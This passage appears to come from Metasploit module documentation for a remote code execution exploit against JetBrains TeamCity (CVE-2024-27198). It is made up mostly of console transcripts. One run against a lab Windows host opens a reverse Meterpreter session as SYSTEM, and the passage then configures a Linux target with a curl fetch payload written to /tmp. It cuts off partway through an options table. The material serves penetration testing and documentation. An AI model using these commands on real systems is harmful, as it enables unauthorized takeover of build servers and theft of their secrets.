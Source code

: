 ```
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > check
[+] 192.168.86.68:8111 - The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Windows Server 2022.
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Windows Server 2022.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.ZHpiZmNJMlB1b2Zqam5NSkw0bk1JS1hFdlZz.MjVjZDQ3YjEtODM2YS00Y2I1LWE3ODEtMzUzMTgzMDc4NjA3
[*] Uploading plugin: RzeS0eJP
[*] Deleting the plugin...
[*] Sending stage (201798 bytes) to 192.168.86.68
[*] Deleting the authentication token...
[+] Deleted C:\TeamCity\work\Catalina\localhost\ROOT\TC_147512_RzeS0eJP
[*] Meterpreter session 3 opened (192.168.86.42:4444 -> 192.168.86.68:53113) at 2024-02-23 14:21:43 +0000
[!] This exploit may require manual cleanup of 'C:\ProgramData\JetBrains\TeamCity\system\caches\plugins.unpacked\RzeS0eJP' on the target

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-CMULENHFCK7
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > pwd
c:\TeamCity\bin
meterpreter > 
```

### Linux Command

Note: Ensure the target is a Linux target by confirming via the `check` command.

Note: Ensure the `FETCH_COMMAND` is set to a suitable value, such as `CURL`.

Note: Ensure the `FETCH_WRITABLE_DIR` is set to a suitable value, such as `/tmp`.

```
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set RHOSTS 192.168.86.43
RHOSTS => 192.168.86.43
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > check
[+] 192.168.86.43:8111 - The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Linux.
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set target 3
target => 3
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp 
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set FETCH_WRITABLE_DIR /tmp
FETCH_WRITABLE_DIR => /tmp
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > show options

Module options (exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
```